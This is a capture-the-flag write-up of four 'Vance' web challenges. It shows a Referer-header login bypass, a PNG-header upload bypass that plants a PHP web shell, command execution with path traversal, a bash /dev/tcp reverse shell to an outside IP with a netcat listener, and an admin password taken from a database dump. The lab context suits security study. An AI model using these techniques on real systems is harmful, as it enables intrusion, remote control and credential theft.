

# Vance-Refridgeration
Really cool challenge that reminded me a lot about Hack the Box's Bank challenge.

- [1. Vance - Bad logic (100)](#1-vance---bad-logic-100)
- [2. Vance - Broken Trust (150)](#2-vance---broken-trust-150)
- [3. Vance - Triple Bypass (150)](#3-vance---triple-bypass-150)
- [4. Vance - Summit (150)](#4-vance---summit-150)

# 1. Vance - Bad logic (100)

From the challenge hint we got that the developers SQL sanitization was pretty good and we should focus on logic bugs.

With that in mind I went ahead started up gobuster to see what all I could find.

`gobuster -u http://vance.threatsims.com:35005 -w directory-list-lowercase-2.3-big.txt -x php`

```
/index.php (Status: 200)
/images (Status: 301)
/about.php (Status: 302)
/login.php (Status: 200)
/uploads (Status: 301)
/upload.php (Status: 302)
/includes (Status: 301)
/dashboard.php (Status: 302)
/plans.php (Status: 302)
```

All of the pages were redirecting me to the login page, so I took a look there and found a hint in the HTML comments.

`<!-- TODO: Remove referer flow check in prod -->`

With this hint I decided to play around with the referer a bit till I found the vulnerability! If you set the referer as `/login.php` then it assumes you had already logged in and redirected you to the right page.

`Referer: http://vance.threatsims.com:35005/login.php`

Since we already found some of the pages with gobuster, I went ahead and tried a few until I landed on `/about.php` which contained the first flag `{fridge_g4ng}`!


<br />

# 2. Vance - Broken Trust (150)
Checking out the rest of the pages, we also find another flag at `upload.php`, `{I_am_a_Butt3r_L0rd}`!



<br />

# 3. Vance - Triple Bypass (150)

Since there was an upload page, I assumed the next step was to try to get some sort've RCE through a file upload vulnerability. I tried to enter a basic php file, but got hit with an error message that I needed to upload a valid file. So we will need to get around the file sanitization somehow.

After messing around with the page for a bit, I managed to bypass sanitization by including PNG headers in the file.

```
POST /upload.php HTTP/1.1
Host: vance.threatsims.com:35005
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------129324419341189066324135806543
Content-Length: 401
Origin: http://vance.threatsims.com:35005
Connection: close
Referer: http://vance.threatsims.com:35005/upload.php
Cookie: PHPSESSID=mmo8jthqndf03kjd6f4p38jvt1
Upgrade-Insecure-Requests: 1
Referer: http://vance.threatsims.com:35005/login.php

-----------------------------129324419341189066324135806543
Content-Disposition: form-data; name="file"; filename="cmd.php"
Content-Type: image/png

‰PNG

���
IHDRDATA:
<?php echo system($_GET['cmd']); ?>)
-----------------------------129324419341189066324135806543
Content-Disposition: form-data; name="submit"

Upload Image
-----------------------------129324419341189066324135806543--
```

This let me upload and execute some commands on the server.

`<?php echo system($_GET['cmd']); ?>`

Checking to see what all is on the server we can issue a simple command

`/uploads/cmd.php?cmd=ls`

```
Kappa.png
cmd.php
crusader.jpg
intro-1609948293.jpg
intro-1609948293.php
k2w22.php
k2w3.php
k2w4.php
krosserev.php
krosserev3.php
krosserev3.php)
```

Snooping around a little more we find another flag `{w4r_n0t_won_in_Meetings}` by sending the command `/uploads/cmd.php?cmd=cat ../../../../flag.txt`

# 4. Vance - Summit (150)
Finally the hint says that we need to get admin. So to make things easier for me, I go ahead and get a reverse shell going.

To do this I created a C2 server using an AWS EC2 instance and then sent the reverse shell to that IP address.

Setup listener

`nc -lnvp 6000`

Connect the shell to the C2 server

`bash -c "bash -i >& /dev/tcp/3.236.230.174/6000 0>&1"`

I took a look at all the SUID executables to try and escilate my privelage and couldn't find anything that worked.

After reading the challenge back, it said to get `admin` and not `root`, which was enough of a difference to make me check the database.

Printing out the users.db file
we print out the sqlite users.db file and get ->

`35ea1e37e61a12adminadmin@trebuchet.orgH01yL4nD!MARY KEY, USERNAME TEXT, EMAIL TEXT, PASSWORD TEXT))=indexsqlite_autoindex_users_1users
GUACAMOLE5`

Which gives us a password for admin!

`admin:H01yL4nD!`

Logging in as admin, we print out `flag.txt` in the admin user's directory and we get the final flag!

`{Bigg3st_Chungus}`
